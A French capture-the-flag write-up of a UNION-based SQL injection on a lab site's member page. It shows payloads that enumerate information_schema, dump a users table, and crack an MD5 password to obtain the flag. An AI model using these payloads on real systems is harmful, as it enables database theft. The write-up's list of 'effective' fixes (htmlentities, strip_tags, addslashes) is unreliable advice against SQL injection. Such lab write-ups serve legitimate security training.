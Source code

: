 # member injection SQL
Recupere des datas grace a une injection SQL

## Comment obtenir le flag
* Se rendre a `ip`/index.php?page=member
* Si on submit vide, on obtient:
- *You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*
* En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
- On tombe sur : `First name: Flag` / `Surname : GetThe`
- Notre bible pour les requetes : *http://www.sqlinjection.net/column-names/*

- `TRUE` permet de valider l'expression précédente.
- `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

* `TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:
```
table_schema: Member_Sql_Injection
table_name: users
```

* `TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
```
table_name: users
column_name: user_id
column_name: first_name
column_name: last_name
column_name: town
column_name: country
column_name: planet
column_name: Commentaire
column_name: countersign
```

* Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
- `TRUE UNION SELECT last_name, countersign FROM Member_Sql_Injection.users`
- `TRUE UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users`
- etc.

* Nous obtenons pour l'utilisateur GetThe Flag :
```
user_id : 5
first_name : Flag
last_name : GetThe
town : 42
country : 42
planet : 42
Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
```

* En suivant les recommandations du commentaire, nous obtenons:
* *5ff9d0165b4f92b14994e5c685cdce28* = *FortyTwo* (md5)
* Cryptons ensuite fortytwo (*lower all the char*) en sha256, pour obtenir le flag : *10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5*

## Fix possible
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu

## Explications
Il est possible de faire une injection SQL en utilisant `UNION` dans le but d'exposer l'intégralité des bases de données du site et leur contenu.
Cela permet de découvrir notamment et en particulier les mots de passe enregistrés des admin/root.
